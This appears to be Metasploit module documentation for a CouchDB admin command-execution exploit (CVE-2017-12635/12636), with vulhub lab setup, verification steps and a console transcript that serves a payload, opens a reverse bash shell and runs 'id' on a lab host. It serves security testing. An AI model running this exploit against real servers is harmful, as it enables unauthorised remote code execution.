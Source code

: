 ## Description  

CouchDB administrative users can configure the database server via HTTP(S). Some of the configuration options
include paths for operating system-level binaries that are subsequently launched by CouchDB.
This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell
commands as the CouchDB user,including downloading and executing scripts from the public internet.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

Couchdb 2.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635  
Couchdb 1.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636


### Vulnerable Application Installation Setup.

Change dictory to CVE-2017-1263X, and run `docker-compose up -d` 


## Verification Steps  

  1. Install the application
  2. Start msfconsole
  3. Do: ```use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb```
  4. Do: ``check``

``[*] 192.168.77.139:5984 The target appears to be vulnerable.``

  5. Do: ``set srvhost <ip>``
  6. Do: ``set srvport <port>``
  7. Do: ``set lhost <ip>``
  8. Do: ``set lport <port>``
  9. Do: ``exploit``
  10. You should get a shell.

## Options

### URIPATH

``URIPATH`` by default is random, you can change it if you want.

### HttpUsername, HttpPassword  

Sometimes it requires authentication, set these options to authorize.  


## Scenarios  

### Apache CouchDB on Linux

```
msf > use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb
msf exploit(linux/http/apache_couchdb_cmd_exec) > show options 

Module options (exploit/linux/http/apache_couchdb_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password to login with
   HttpUsername                   no        The username to login as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT         5984             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit to download and execute. (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/http/apache_couchdb_cmd_exec) > set rhost 192.168.77.139
rhost => 192.168.77.139
msf exploit(linux/http/apache_couchdb_cmd_exec) > check 
[*] 192.168.77.139:5984 The target appears to be vulnerable.
msf exploit(linux/http/apache_couchdb_cmd_exec) > set srvhost 192.168.77.139 
srvhost => 192.168.77.139
msf exploit(linux/http/apache_couchdb_cmd_exec) > set srvport 8888
srvport => 8888
msf exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 192.168.77.139 
lhost => 192.168.77.139
msf exploit(linux/http/apache_couchdb_cmd_exec) > exploit 
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.77.139:4444 
msf exploit(linux/http/apache_couchdb_cmd_exec) > [*] Using URL: http://192.168.77.139:8888/rXrdf2
[*] 192.168.77.139:5984 - The 1 time to exploit
[*] 192.168.77.139:5984 - Sending the payload to the server...
[*] Command shell session 1 opened (192.168.77.139:4444 -> 172.18.0.2:58348) at 2018-03-27 06:18:21 -0400
[*] Server stopped.
msf exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(couchdb) gid=999(couchdb) groups=999(couchdb)
```
